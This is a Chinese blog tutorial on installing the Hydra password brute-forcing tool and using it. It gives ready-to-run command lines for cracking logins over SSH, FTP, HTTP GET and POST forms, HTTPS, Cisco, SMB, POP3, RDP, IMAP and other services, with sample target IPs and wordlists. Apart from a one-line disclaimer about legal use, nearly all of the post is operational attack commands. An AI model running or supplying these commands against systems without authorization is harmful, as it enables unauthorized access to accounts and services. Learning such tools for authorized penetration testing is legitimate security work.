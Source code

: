 ```yaml
---
layout: post
category: binghe-code-hack
title: 破解工具hydra安装与使用
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 破解工具hydra安装与使用
lock: need
---
```


# 破解工具hydra安装与使用

注：大家可以到链接[https://download.csdn.net/download/l1028386804/10902002](https://download.csdn.net/download/l1028386804/10902002 ) 下载Hydra一键安装包，内含冰河亲做一键安装脚本，直接运行即可。

**说明：** hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网：http://www.thc.org/thc-hydra，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。 这款暴力密码破解工具相当强大，支持几乎所有协议的在线密码破解，其密码能否被破解关键在于字典是否足够强大。对于社会工程型渗透来说，有时能够得到事半功倍的效果。本文仅从安全角度去探讨测试，请勿用于非法事件。

**安装：** 1.yum安装相应依赖包

```
# yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel libncurses-devel
```

2.hydra编译安装

```
# cd /usr/local/src
# wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
# tar zxf hydra-6.3-src.tar.gz
# cd hydra-6.3-src
# ./configure
# make
# make install
```

**参数：**

```
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项
```

**使用：** 1.手动创建用户名字典和密码字典，这里只是为了演示，只加了几个用户名和弱口令。真正破解时，需要利用密码字典生成器生成强大的字典

2.破解ssh：

```
# hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.8 ssh
```

破解成功，直接显示结果。也可以使用 -o 选项指定结果输出文件。

```
# hydra -L users.txt -P password.txt -t 1 -vV -e ns -o save.log 192.168.1.104 ssh
```

其它实例：

1.破解ssh：

```
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
# hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
```

2.破解ftp：

```
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

3.get方式提交，破解web登录：

```
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```

4.post方式提交，破解web登录：

```
# hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
# hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:wrong username or password"
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）
```

5.破解https：

```
# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
```

6.破解teamspeak：

```
# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
```

7.破解cisco：

```
# hydra -P pass.txt 10.36.16.18 cisco
# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
```

8.破解smb：

```
# hydra -l administrator -P pass.txt 10.36.16.18 smb
```

9.破解pop3：

```
# hydra -l muts -P pass.txt my.pop3.mail pop3
```

10.破解rdp：

```
# hydra ip rdp -l administrator -P pass.txt -V
```

11.破解http-proxy：

```
# hydra -l admin -P pass.txt http-proxy://10.36.16.18
```

12.破解imap：

```
# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
# hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
此工具强大之处远多于以上测试，其密码能否破解关键在于强大的字典，对于社工型渗透来说，有时能够得到事半功倍的效果
```

**附录：** 附录1:hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory 如果是ubuntu系统的话，直接apt-get install cmake libssl-dev就可以了。但我系统的centOS，没有找到libssl-dev这东西。因为手#动编译了libssh

```
# yum install cmake
# cd /usr/local/src
# wget http://www.libssh.org/files/0.4/libssh-0.4.8.tar.gz
# tar zxf libssh-0.4.8.tar.gz
# cd libssh-0.4.8
# mkdir build
# cd build
# cmake -DCMAKE_INSTALL_PREFIX=/usr -DCMAKE_BUILD_TYPE=Debug -DWITH_SSH1=ON ..
# make
# make install
# /sbin/ldconfig  //要执行这句，不然会出现hydra: error while loading shared libraries: libssh.so.4: cannot open shared object file: No such file or directory

# cd /usr/local/src
# wget http://freeworld.thc.org/releases/hydra-6.3-src.tar.gz
# tar zxf hydra-6.3-src.tar.gz
# cd hydra-6.3-src
# ./configure
# make
# make install
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)